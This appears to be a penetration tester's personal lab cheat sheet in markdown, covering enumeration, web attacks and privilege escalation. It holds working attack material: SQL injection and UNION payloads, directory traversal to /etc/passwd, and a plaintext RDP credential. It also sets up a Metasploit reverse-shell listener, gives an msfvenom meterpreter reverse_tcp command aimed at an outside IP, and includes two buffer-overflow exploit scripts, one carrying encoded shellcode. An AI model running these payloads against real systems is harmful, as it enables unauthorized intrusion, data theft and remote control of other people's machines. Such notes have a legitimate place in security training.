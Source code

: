## Dry Run Notes

### Network Enumeration
	nmap -v -sT -Pn -T4 -sV <ipaddr>,<ipaddr_2>
	
	whereis ping = <path>/ping
	for i in {1..254}; do (/<path>/ping -c 1 192.168.1.$i | grep "bytes from" &); done
	
### Host Enumeration
	0) File Enum
		/etc/hosts
		/etc/passwd
	
	1) Persistence
		i) crontab
			run-parts will run evetyhing in directory
		
	2) Priv Esc via SUDO / SUID / SGID
		i)	X = 4000 (SUID) : 2000 (SGID) : 6000 (Either / Both )
			find / -type f -perm /X -ls 2>/dev/null
		
		ii) 	sudo -l
	
	3) Situational Awareness
		whos on the box
		arp -a
		ping it again
	
### Web Injection
	Look at the websites found from the nmap scan below
		nmap -v -sT -Pn -T4 -sV --script=http-enum.nse <webserver> -p 80
	Check for robots.txt
		http://<ip>/robots.txt
	Directory Traversal
		Just gets information about the box
		
		Something that reads something, probably vulnerable to directory traversal
			../../../../../../
			1) etc/passwd, etc/hosts, etc/resolv.conf, etc/groups
		view page source to get good view of the files
	
	SQL Injection
		If you see username, password, SQL injection
		If you see radio buttons
	
		Post Method
			username=tom' OR 1=1'
			password=tom' OR 1=1'
			
		Get Method
			F12 -> Network -> [Hit Login] -> Click Post Request -> Request
			Switch to Raw -> [Copy String] enter to URL
				http://<ip>/<>.php?[Copied String]
			View Page Source
			Passwords are going to be Rot13 / Base64 Encoded
		
		Test if SQL Injection will work
			.php?<category>=<number> OR 1=1 ;
		
		If it does work, see what kind of stuff it needs
		See how the SQL is organized, 1,2,3 shows 1,3,2
			.php?<category>=<number> UNION select 1,2,X..;
			 
		Find the Tables
			.php?<category>=<number> UNION select table_schema,column_name,table_name FROM information_schema.columns;
			
		How many Tables are in the Schema, coount the table_schemas, those
		are the databases
			mysql, information_schema, ..
		
		Look for the non-default ones which are always at the bottom
			.php?<category>=<number> UNION select <Field1>,<Field1>,<Field2> from <table>; 
			.php?<category>=<number> UNION select user_id,name,username from siteusers; 
			
			
			
		
	Command injection
		Any other field, do command injection
		; <command>
 

### Linux

####

####

### Windows
	if 3389 is open, try and rdp into it
		xfreerdp /u:Lroth /p:anotherpassword4THEages /dynamic-resolution +clipboard /v:127.0.0.1:[port]
	
	Host Enum
		Cmdline
			whoami
			net users
			net group
			net localgroup
			net localgroup administrators see if you are in the group
		
		Registry
			Look at the regedit.exe for RUN, RUNONCE, for HKLM and HKCU
		
		Services
			Look for services that are lazily configured, aka no desc, weird name, etc.
			
		Scheduled Tasks
			Look at action at poorly configured tasks, can see what is going on
		
		Look in directories
			If something is running at a certain place in the file system, see if you can edit in 
			there and rename the og file, and name your file that name and make a payload
		
	MSFconsole
		use multi/handler
		set payload windows/meterpreter/reverse_tcp
		set lhost 0.0.0.0
		set lport 4444
		exploit -> will start the listening for the reverse shell
		
		
#### Llinux

#!/usr/bin/python2.7

# Fill UP THE BUFFER
buf = "A" * 62

# EIP REGISTER TO JMP ESP
buf += "\x59\x3b\xde\xf7"

'''
JMP ESP addresses
0xf7de3b59  
0xf7f588ab
0xf7f645fb
0xf7f6460f
0xf7f64aeb
'''
# assisti with encoding NOP SLED
buf +="\x90" * 10
```
msfvenom -p linux/x86/exec CMD=whoami -b '\x00' -f python
```

# Shell Code / Payload below
buf += b"\xdb\xd8\xbe\x34\xcb\x24\x47\xd9\x74\x24\xf4\x58"
buf += b"\x31\xc9\xb1\x0e\x31\x70\x19\x83\xe8\xfc\x03\x70"
buf += b"\x15\xd6\x3e\x4e\x4c\x4e\x58\xdd\x34\x06\x77\x81"
buf += b"\x31\x31\xef\x6a\x31\xd5\xf0\x1c\x9a\x47\x98\xb2"
buf += b"\x6d\x64\x08\xa3\x7d\x6a\xad\x33\xeb\x0c\xce\x5c"
buf += b"\x85\xb6\x79\xc4\x79\x10\x5c\x2a\x0d\x34\xcf\x4b"
buf += b"\x9c\xad\x0f\xdb\x0d\xa4\xf1\x2e\x31"

print(buf)



#### Windows
#!/usr/bin/python2.7

import socket

'''
625011AF
625011BB
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.40.22 lport=4444 -b "\x00" -f python --> Payload
'''


buf = "TRUN /.:/" #Exploit
buf += "A" * 2003 #Buffer Offset
buf += "\xa0\x12\x50\x62"  #JMP ESP
buf += "\x90" * 15 #NOP SLED
buf += #SHELLCODE HERE
s = socket.socket (socket.AF_INET, socket.SOCK_STREAM) # Creates IPv4 socket

s.connect(("0.0.0.0",PORTHERE))    #IP and port to connect to
print s.recv(1024)   #print response
s.send(buf)       #sends the variable buf
print s.recv(1024)   #print response
s.close()         #close the connection








































####

